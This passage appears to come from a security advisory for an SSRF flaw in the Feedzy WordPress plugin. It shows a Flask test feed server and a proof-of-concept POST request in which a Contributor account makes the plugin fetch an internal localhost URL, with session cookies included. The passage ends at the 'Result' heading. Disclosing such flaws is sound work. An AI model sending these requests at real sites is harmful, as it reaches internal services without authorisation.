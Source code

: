 ```py
      <channel>
        <title>Example Feed</title>
        <link>https://example.com</link>
        <description>This is a sample RSS feed generated by Flask.</description>
        <item>
          <title>First item</title>
          <link>https://example.com/item1</link>
          <description>Hello world!</description>
        </item>
        <item>
          <title>Second item</title>
          <link>https://example.com/item2</link>
          <description>Another entry.</description>
        </item>
      </channel>
    </rss>"""
    
    return Response(xml_content, mimetype='application/xml')

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8001, debug=True)
```

### Proof of Concept (PoC)

1. Login with a Contributor account
2. Send a POST request with the URL pointing to the local service:

```php
POST /wp-json/feedzy/v1/feed HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:144.0) Gecko/20100101 Firefox/144.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://localhost/wp-login.php?redirect_to=http%3A%2F%2Flocalhost%2Fwp-admin%2F&reauth=1
Connection: keep-alive
Cookie: wordpress_86a9106ae65537651a8e456835b316ab=sub%7C1761790291%7C0Q8NLwANiN0Uz0cgmvSAN6iBfEFzSylzkAkZn4kLcoG%7Cdf597bffe4c239d9e871b2ac98a2d427df0fb82dc7a09099bc026fbbff641ad1; wp-settings-time-2=1761542750; _lscache_vary=0f9122a3a07756eeee3b4199f2c151b1; wp-settings-time-3=1761591693; wp-settings-3=mfold%3Do; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_86a9106ae65537651a8e456835b316ab=sub%7C1761790291%7C0Q8NLwANiN0Uz0cgmvSAN6iBfEFzSylzkAkZn4kLcoG%7Cd42e05305965ebb0efad0d1374e9552219c641afb6452531634d3b4e414c6a48; wp_lang=en_US

url[0]=http://localhost:8001/feed&category=cat
```

**Result**:
